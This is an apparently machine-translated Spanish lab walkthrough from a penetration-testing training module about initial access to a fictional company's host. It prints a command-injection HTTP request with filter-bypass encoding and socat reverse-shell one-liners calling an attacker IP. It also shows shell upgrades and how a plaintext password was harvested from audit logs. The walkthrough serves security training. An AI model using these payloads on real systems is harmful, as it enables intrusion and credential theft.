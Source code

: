 # Acceso inicial

---

Ahora que hemos enumerado y atacado a fondo el perímetro externo y descubrimos una gran cantidad de hallazgos, estamos listos para cambiar de marcha y centrarnos en obtener un acceso de red interna estable. Según el documento SOW, si podemos lograr un punto de apoyo interno, el cliente desea que veamos hasta dónde podemos llegar e incluir la ganancia`Domain Admin level access`. En la última sección, trabajamos duro para despegar las capas y encontrar aplicaciones web que condujeron a la lectura de archivos temprano o la ejecución del código remoto, pero no nos llevaron a la red interna. Dejamos obtener RCE en el`monitoring.inlanefreight.local`Solicitud después de una batalla muy reñida contra filtros y listas negras establecidas para tratar de prevenir`Command Injection`ataques.

---

## Obtener una carcasa inversa

Como se menciona en la sección anterior, podemos usar[Socat](https://linux.die.net/man/1/socat)para establecer una conexión de carcasa inversa. Nuestro comando base será el siguiente, pero tendremos que ajustarlo algunos para superar el filtrado:

  Acceso inicial

```shell-session
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

Podemos modificar este comando para darnos una carga útil para atrapar un shell inverso.

  Acceso inicial

```shell-session
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Referer: http://monitoring.inlanefreight.local/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntpou9fdf13i90mju7lcrp3f06
Connection: close
```

Empezar`Netcat`El oyente en el puerto utilizado en el comando SOCAT (8443 aquí) y ejecute la solicitud anterior en Burp Repeater. Si todo va como se pretendía, tendremos una carcasa inversa como la`webdev`usuario.

  Acceso inicial

```shell-session
xnoxos@htb[/htb]$ nc -nvlp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 51496
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm) 
```

A continuación, tendremos que actualizar a un`interactive TTY`. Este[correo](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)describe algunos métodos. Podríamos usar un método que también se cubrió en el[Tipos de conchas](https://academy.hackthebox.com/module/77/section/725)Sección de la`Getting Started`módulo, ejecutando el conocido Python One-Liner (`python3 -c 'import pty; pty.spawn("/bin/bash")'`) para generar un psedo-terminal. Pero vamos a probar algo un poco diferente usando`Socat`. La razón para hacer esto es obtener una terminal adecuada para que podamos ejecutar comandos como`su`, `sudo`, `ssh`, `use command completion`, y`open a text editor if needed`.

Comenzaremos a un oyente de Socat en nuestro anfitrión de ataque.

  Acceso inicial

```shell-session
xnoxos@htb[/htb]$ socat file:`tty`,raw,echo=0 tcp-listen:4443
```

A continuación, ejecutaremos un Socat One-Liner en el host de destino.

  Acceso inicial

```shell-session
xnoxos@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

Si todo sale según lo planeado, tendremos una conexión de shell inverso estable en nuestro oyente de Socat.

  Acceso inicial

```shell-session
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
webdev@dmz01:/var/www/html/monitoring$
```

Ahora que tenemos un shell inverso estable, podemos comenzar a cavar alrededor del sistema de archivos. Los resultados del`id`El comando es inmediatamente interesante. El[Grupos privilegiados](https://academy.hackthebox.com/module/51/section/477)Sección de la`Linux Privilege Escalation`El módulo muestra un ejemplo de usuarios en el`adm`grupo que tiene derecho a leer todos los registros almacenados en`/var/log`. Quizás podamos encontrar algo interesante allí. Podemos usar[aureport](https://linux.die.net/man/8/aureport)Para leer los registros de auditoría en los sistemas Linux, con la página del hombre que lo describe como "Aureport es una herramienta que produce informes resumidos de los registros del sistema de auditoría".

  Acceso inicial

```shell-session
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

Después de ejecutar el comando, escriba`q`para volver a nuestro caparazón. De la salida anterior, parece que un usuario estaba tratando de autenticarse como el`srvadm`usuario, y tenemos un par de credenciales potenciales`srvadm:ILFreightnixadm!`. Usando el`su`comando, podemos autenticarnos como el`srvadm`usuario.

  Acceso inicial

```shell-session
webdev@dmz01:/var/www/html/monitoring$ su srvadm

Password: 
$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ /bin/bash -i

srvadm@dmz01:/var/www/html/monitoring$
```

Ahora que hemos pasado por alto el filtrado pesado para lograr la inyección de comando, convertido esa ejecución del código en un shell inverso y escalamos nuestros privilegios a otro usuario, no queremos perder acceso a este host. En la siguiente sección, trabajaremos para lograr la persistencia, idealmente después de crecer los privilegios para`root`.